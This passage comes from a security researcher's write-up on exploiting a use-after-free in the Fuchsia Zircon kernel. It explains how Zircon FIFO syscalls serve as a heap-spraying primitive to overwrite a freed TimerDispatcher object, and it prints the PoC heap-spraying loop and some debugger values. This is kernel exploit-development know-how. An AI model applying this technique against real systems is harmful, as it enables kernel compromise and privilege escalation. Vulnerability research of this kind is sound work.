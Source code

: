First of all, for overwriting `TimerDispatcher`, I needed to discover a heap spraying exploit primitive that:
 1. Can be used by the attacker from the unprivileged userspace component
 2. Makes Zircon allocate a new kernel object at the location of the freed object
 3. Makes Zircon copy the attacker's data from the userspace to this new kernel object

I knew from my Linux kernel experience that heap spraying is usually constructed using inter-process communication (IPC). Basic IPC syscalls are usually available for unprivileged programs, according to paragraph 1. They copy userspace data to the kernelspace to transfer it to the recipient, according to paragraph 3. And finally, some IPC syscalls set the data size for the transfer, which gives control over the kernel allocator behavior and allows the attacker to overwrite the target freed object, according to paragraph 2.

That's why I started to study the [Zircon syscalls](https://fuchsia.dev/fuchsia-src/reference/syscalls) responsible for IPC. I found [Zircon FIFO](https://fuchsia.dev/fuchsia-src/reference/syscalls/fifo_create), which turned out to be an excellent heap spraying primitive. When the `zx_fifo_create()` syscall is called, Zircon creates a pair of `FifoDispatcher` objects (see the code in [zircon/kernel/object/fifo_dispatcher.cc](https://fuchsia.googlesource.com/fuchsia/+/refs/heads/main/zircon/kernel/object/fifo_dispatcher.cc)). Each of them allocates the required amount of kernel memory for the FIFO data:

```c++
  auto data0 = ktl::unique_ptr<uint8_t[]>(new (&ac) uint8_t[count * elemsize]);
  if (!ac.check())
    return ZX_ERR_NO_MEMORY;

  KernelHandle fifo0(fbl::AdoptRef(
      new (&ac) FifoDispatcher(ktl::move(holder0), options, static_cast<uint32_t>(count),
                               static_cast<uint32_t>(elemsize), ktl::move(data0))));
  if (!ac.check())
    return ZX_ERR_NO_MEMORY;
```

With the debugger, I determined that the size of the freed `TimerDispatcher` object is 248 bytes. I assumed that for successful heap spraying I needed to create Zircon FIFOs of the same data size. This idea worked instantly: in GDB I saw that Zircon overwrote the freed `TimerDispatcher` with `FifoDispatcher` data! This is the code for the heap spraying in my PoC exploit:

```c
  printf("[!] do heap spraying...\n");

#define N 10
  zx_handle_t out0[N];
  zx_handle_t out1[N];
  size_t write_result = 0;

  for (int i = 0; i < N; i++) {
    status = zx_fifo_create(31, 8, 0, &out0[i], &out1[i]);
    if (status != ZX_OK) {
      printf("[-] creating a fifo %d failed\n", i);
      return 1;
    }
  }
```


[0]: 0xffdffe64ffdffd24
[1]: 0xffdcb5a4ffe00454
[2]: 0xffdffea4ffdc7824
[3]: 0xffd604c4ffd519f4